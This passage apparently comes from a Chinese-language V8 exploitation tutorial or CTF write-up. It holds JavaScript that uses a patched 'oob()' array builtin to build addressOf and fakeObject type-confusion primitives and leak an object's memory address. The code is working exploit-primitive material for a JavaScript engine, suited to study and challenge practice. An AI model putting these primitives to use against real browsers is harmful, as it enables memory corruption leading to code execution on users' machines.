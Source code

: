完整的测试代码

```assembly
var obj = {"a": 1};
var obj_array = [obj];
var float_array = [1.1];

var obj_array_map = obj_array.oob();
var float_array_map = float_array.oob();

var buf =new ArrayBuffer(16);
var float64 = new Float64Array(buf);
var bigUint64 = new BigUint64Array(buf);
// 浮点数转换为64位无符号整数
function f2i(f)
{
    float64[0] = f;
    return bigUint64[0];
}
// 64位无符号整数转为浮点数
function i2f(i)
{
    bigUint64[0] = i;
    return float64[0];
}
// 64位无符号整数转为16进制字节串
function hex(i)
{
    return i.toString(16).padStart(16, "0");
}

// 泄露某个object的地址
function addressOf(obj_to_leak)
{
    obj_array[0] = obj_to_leak;
    obj_array.oob(float_array_map);
    let obj_addr = f2i(obj_array[0]) - 1n;
    obj_array.oob(obj_array_map); // 还原array类型以便后续继续使用
    return obj_addr;
}

// 将某个addr强制转换为object对象
function fakeObject(addr_to_fake)
{
    float_array[0] = i2f(addr_to_fake + 1n);
    float_array.oob(obj_array_map);
    let faked_obj = float_array[0];
    float_array.oob(float_array_map); // 还原array类型以便后续继续使用
    return faked_obj;
}

var test_obj = {};
%DebugPrint(test_obj);
var test_obj_addr = addressOf(test_obj);
console.log("[*] leak object addr: 0x" + test_obj_addr.toString(16));
%SystemBreak();
```
